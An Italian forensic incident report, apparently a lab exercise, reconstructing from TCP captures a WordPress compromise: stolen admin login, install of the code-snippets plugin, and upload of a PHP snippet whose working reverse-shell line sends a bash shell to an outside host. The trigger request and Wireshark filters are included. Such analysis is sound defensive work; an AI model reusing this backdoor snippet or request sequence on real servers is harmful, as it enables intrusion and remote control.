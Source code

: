 
# CVE-2024-7420 (58.16.78.90 -> 192.168.100.101)

Flussi TCP confermano un’azione potenzialmente malevola da parte di un attore che dispone di privilegi admin, che ha installato il plugin **code-snippets**. Sono state fatte ulteriori analisi per veriicahe sfruttamneti a vulnerabilità note.

## When

| **Evento**                     | **Timestamp** | **TCP Stream** | **Dettagli**                                   |
|--------------------------------|---------------|----------------|-----------------------------------------------|
| Login admin            | 22:45:15.45   | 458            | POST a /wp-login.php con admin:byebye         |
| Installazione plugin           | 22:45:15.80   | 461            | Navigazione e installazione code-snippets     |
| Upload  snippet malevolo  | 22:46:21.03   | 621            | POST con file fancy_rnd.json                  |
| Attivazione  shell remota | 22:47:09.60   | 730            | GET con rand=NTguMTYuNzguOTAvNDQz             |

## Who/Where

| **Ruolo**         | **Indirizzo IP**       | **Porta**       |
|--------------------|------------------------|-----------------|
| Attaccante         | 58.16.78.90           | 51144, 51176, 54012, 44250 |
| Server compromesso | 192.168.100.101       | 80 (srv-www)    |
| Destinazione  reverse shell |  58.16.78.90         | 443             |

## What

1. L’attaccante ha effettuato l’accesso con le stesse credenziali (admin:byebye) rubate nella fase precedente

```sh
    POST /wp-login.php
    ...
    log=admin&pwd=byebye
```

2. Accesso e installazione del plugin attraverso la dashboard WordPress

```sh
    GET /wp-admin/plugins.php
    GET /wp-admin/plugin-install.php
    POST /wp-admin/admin-ajax.php HTTP/1.1
    slug=code-snippets&action=install-plugin&_ajax_nonce=aad5c50a4b&_fs_nonce=&username=&password=&connection_type=&public_key=&private_key=
```

3. Caricamento dello snippet PHP malevolo

    - Lo snippet contiene codice per l’invocazione di una reverse shell su base64-decoded IP/porta.

    ```php
    add_action('init', function() {
        if ( isset($_GET['rand']) ) {
            exec('/bin/bash -c "bash -i >& /dev/tcp/' . base64_decode($_GET['rand']) . ' 0>&1"');
        }
    });
    ```

4. Attivazione della shell

```sh
    GET /?rand=NTguMTYuNzguOTAvNDQz
```

 - echo "NTguMTYuNzguOTAvNDQz" | base64 -d 
 - 58.16.78.90/443
 - Il server WordPress avvia una connessione in uscita verso 58.16.78.90:443, stabilendo una shell Bash interattiva.


## How

- L’attaccante ha sfruttato le credenziali admin modificate nel precedente attacco.
- È stata utilizzata la vulnerabilità  [CVE-2024-7420](https://nvd.nist.gov/vuln/detail/CVE-2024-7420)

## Why

- Ottenere pieno controllo sul server web
- Esfiltrare dati sensibili aziendali
- Possibile installazione di backdoor persistenti


**Filtri Wireshark utilizzati**

```sh
http.request.method == "POST" && http contains "login"
http.request.method == "POST" && http.request.uri contains "code-snippets"
http.request.uri contains "rand="
```